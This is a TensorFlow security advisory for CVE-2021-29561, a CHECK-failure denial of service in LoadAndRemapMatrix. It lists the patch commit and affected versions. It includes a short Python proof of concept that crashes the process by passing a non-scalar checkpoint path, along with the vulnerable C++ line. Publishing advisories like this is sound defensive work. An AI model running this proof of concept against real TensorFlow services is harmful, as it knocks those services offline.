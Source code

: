 ## TFSA-2021-049: `CHECK`-fail in `LoadAndRemapMatrix`

### CVE Number
CVE-2021-29561

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from `tf.raw_ops.LoadAndRemapMatrix`:

```python
import tensorflow as tf

ckpt_path = tf.constant([], shape=[0], dtype=tf.string)
old_tensor_name = tf.constant("")
row_remapping = tf.constant([], shape=[0], dtype=tf.int64)
col_remapping = tf.constant([1], shape=[1], dtype=tf.int64)
initializing_values = tf.constant(1.0)

tf.raw_ops.LoadAndRemapMatrix(
    ckpt_path=ckpt_path, old_tensor_name=old_tensor_name,
    row_remapping=row_remapping, col_remapping=col_remapping,
    initializing_values=initializing_values, num_rows=0, num_cols=1)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
assumes that the `ckpt_path` is always a valid scalar.

```cc
const string& ckpt_path = ckpt_path_t->scalar<tstring>()();
```

However, an attacker can send any other tensor as the first argument of
`LoadAndRemapMatrix`. This would cause the rank `CHECK` in `scalar<T>()()` to
trigger and terminate the process.

### Patches
We have patched the issue in GitHub commit
[77dd114513d7796e1e2b8aece214a380af26fbf4](https://github.com/galeone/tensorflow/commit/77dd114513d7796e1e2b8aece214a380af26fbf4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

